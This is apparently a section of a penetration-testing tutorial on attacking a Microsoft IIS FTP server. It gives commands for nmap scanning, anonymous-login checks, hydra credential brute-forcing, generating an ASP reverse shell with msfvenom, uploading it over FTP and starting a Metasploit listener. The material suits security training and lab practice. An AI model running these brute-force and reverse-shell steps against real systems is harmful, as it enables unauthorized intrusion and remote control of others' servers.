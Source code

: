 ### 6.2. Targeting Microsoft IIS FTP

Microsoft FTP is a server feature that supports the transfer of files between machines using the File Transfer Protocol (FTP), commonly integrated with IIS to manage files over the web.

**Objective**: To outline the various techniques that can be used to exploit a Windows system running a Microsoft FTP server.
- Understand how to exploit vulnerabilities in a Windows system running Microsoft FTP Service
- Identify weak configurations
- Test for anonymous access 
- Conduct brute force attacks to gain unauthorized access and manipulate web server contents.

```shell
# We will be targeting the FTP server, as a result, we can limit our Nmap scan to ports 21 and 80.
nmap -sV -sC -p21,80 <target_IP>
# In this case the default Nmap script scan does not reveal any useful information that can be used for exploitation.

# In certain cases, anonymous access to the FTP server may be enabled, therefore allowing us to log in to the FTP server without providing any legitimate credentials.
ftp <target_IP> 21
# Use the credentials anonymous/anonymous to check whether anonymous logins are allowed
# In this case, it looks like the FTP server does not allow anonymous logins. As a result, we will need to explore other techniques for exploiting the FTP server.

hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt <target_IP> ftp
# We can now use these credentials that we have obtained to authenticate to the FTP server, this can be done by running the following command:
ftp <target_IP> 21
```

**Additional insights**

```shell
ls -al /usr/share/nmap/scripts/ | grep ftp-
# We can see ftp-anon.nse, script used to check whether an FTP server allows anonymous login.
nmap -sV -p 21 --script=ftp-anon <target_IP>
# In this case the script doesn't return any results. We can always test it manually
```

The web application hosted on the server is very basic, it doesn’t contain any data or configuration files that could help us identify vulnerabilities or ways to exploit the system. However, we do notice the presence of an `.asp` file. Since Microsoft IIS supports various web scripting extensions, including ASP, this indicates that the server is capable of executing ASP files, which may provide an opportunity for code execution or further exploitation.

At this point, we can try generating an ASP reverse shell using `msfvenom`, upload the resulting ASP file to the web server, and attempt to execute it to establish a reverse connection. However, this approach might not always work as expected—some servers restrict ASP to basic scripting functionality, which can prevent full reverse shell execution. Still, it's worth testing, as successful execution could give us remote access to the target system.

```shell
msfvenom -p windows/shell/reverse_tcp LHOST=<local_IP> LPORT=1234 -f asp > shell.aspx
ftp <target-ip> 21 # Log in using the credentials
put shell.aspx
dir # We successfully upload the shell.aspx file

# Open a new terminal tab
service postgresql start && msfconsole
use exploit/multi/handler
set LHOST <local_IP>
set LPORT 1234
set payload windows/shell/reverse_tcp
run
# However we are not able to get a reverse shell yet.
```